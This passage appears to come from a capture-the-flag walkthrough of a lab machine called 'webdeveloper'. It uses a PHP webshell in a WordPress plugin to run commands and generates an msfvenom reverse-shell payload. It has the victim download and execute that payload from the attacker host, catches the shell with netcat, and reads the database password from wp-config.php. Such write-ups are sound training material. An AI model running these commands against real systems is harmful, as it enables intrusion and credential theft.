 Then, we check that our php webshell is running successfully the **id** command.

![](/assets/images/webdeveloper/screenshot-7.png)

We list the system information and we detect that is a 64 bit operating system.

```console
root@kali:~$ curl -s "http://192.168.179.184/wp-content/plugins/akismet/akismet.php?cmd=$(urlencode -m 'uname -a')"
Linux webdeveloper 4.15.0-38-generic #41-Ubuntu SMP Wed Oct 10 10:59:38 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
```

We generate a linux 64 bit payload with msfvenom.

```console
root@kali:~$ msfvenom -a x64 --platform linux -p linux/x64/shell_reverse_tcp lhost=192.168.179.1 lport=443 -f elf -o evil
```

We start a python web server on port 80.

```console
root@kali:~$ python3 -m http.server 80
```

We set up a netcat listener on port 443, we run the following curl instruction that really do is download the paylod to the victim machine, give it execution permissions and execute it.

```console
root@kali:~$ curl -s "http://192.168.179.184/wp-content/plugins/akismet/akismet.php?cmd=$(urlencode -m 'curl 192.168.179.1/evil -o /tmp/evil && chmod +x /tmp/evil && /tmp/evil')"
```
If everything wen well, we get a shell.

```console
root@kali:~$ nc -vlnp 443
listening on [any] 443 ...
connect to [192.168.179.1] from (UNKNOWN) [192.168.179.184] 36790
script -qc /bin/bash /dev/null
www-data@webdeveloper:/var/www/html/wp-content/plugins/akismet$
```

Listing the wordpress config file was found the password of mysql connection.

```console
www-data@webdeveloper:/var/www/html$ head -n 40 wp-config.php
...
// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define('DB_NAME', 'wordpress');

/** MySQL database username */
define('DB_USER', 'webdeveloper');

/** MySQL database password */
define('DB_PASSWORD', 'MasterOfTheUniverse');

/** MySQL hostname */
define('DB_HOST', 'localhost');

/** Database Charset to use in creating database tables. */
define('DB_CHARSET', 'utf8mb4');

```
